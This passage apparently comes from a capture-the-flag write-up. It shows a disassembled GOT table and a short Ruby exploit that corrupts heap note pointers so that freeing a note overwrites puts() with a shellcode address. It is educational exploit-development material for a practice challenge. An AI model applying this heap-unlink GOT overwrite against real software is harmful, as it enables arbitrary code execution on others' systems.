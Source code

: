 <span class="Statement">.got.plt</span>:0<span class="Constant">804A008</span> <span class="Identifier">off_804A008</span>     <span class="Identifier">dd</span> <span class="Identifier">offset</span> <span class="Identifier">puts</span>          <span class="Comment">; DATA XREF: _putsr</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A00C</span> <span class="Identifier">off_804A00C</span>     <span class="Identifier">dd</span> <span class="Identifier">offset</span> <span class="Identifier">__gmon_start__</span> <span class="Comment">; DATA XREF: ___gmon_start__r</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A010</span> <span class="Identifier">off_804A010</span>     <span class="Identifier">dd</span> <span class="Identifier">offset</span> <span class="Identifier">exit</span>          <span class="Comment">; DATA XREF: _exitr</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A014</span> <span class="Identifier">off_804A014</span>     <span class="Identifier">dd</span> <span class="Identifier">offset</span> <span class="Identifier">__libc_start_main</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A014</span>                                         <span class="Comment">; DATA XREF: ___libc_start_mainr</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A018</span> <span class="Identifier">off_804A018</span>     <span class="Identifier">dd</span> <span class="Identifier">offset</span> <span class="Identifier">__isoc99_scanf</span> <span class="Comment">; DATA XREF: ___isoc99_scanfr</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A01C</span> <span class="Identifier">off_804A01C</span>     <span class="Identifier">dd</span> <span class="Identifier">offset</span> <span class="Identifier">sbrk</span>          <span class="Comment">; DATA XREF: _sbrkr</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A01C</span> <span class="Identifier">_got_plt</span>        <span class="Identifier">ends</span>
</pre>

Ultimately, it doesn't matter which one I overwrite, as long as it gets called at some point. So, I chose puts(). The exploit code is pretty simple:

<pre>
<span class="Comment"># These are used to overwrite arbitrary memory</span>
writer = add_note(<span class="Constant">4</span>)
owned  = add_note(<span class="Constant">4</span>)

<span class="Comment"># Overwrite the second note's pointers, via the first</span>
edit_note(writer, <span class="Constant">24</span>, (<span class="Special">&quot;</span><span class="Constant">A</span><span class="Special">&quot;</span> * <span class="Constant">16</span>) + [<span class="Type">SHELLCODE_ADDRESS</span>, <span class="Type">PUTS_ADDRESS</span> - <span class="Constant">4</span>].pack(<span class="Special">&quot;</span><span class="Constant">II</span><span class="Special">&quot;</span>))

<span class="Comment"># Removing it will trigger the overwrite</span>
remove_note(owned)
</pre>

Basically, we have 16 bytes of padding, then the address of the shellcode (the value we want to save) then the address of puts() in the relocation table (the place we want to save the shellcode address). Then we remove the note, which triggers the overwrite (and also a second overwrite, recall that unlinking changes both 'prev' and 'next'; it didn't affect me, but be careful with that). 

puts() immediately gets called, and the shellcode runs. I chose shellcode I found online, it's nothing special.

<a href='https://blogdata.skullsecurity.org/ezhp-sploit.rb'>Here's the full exploit</a>
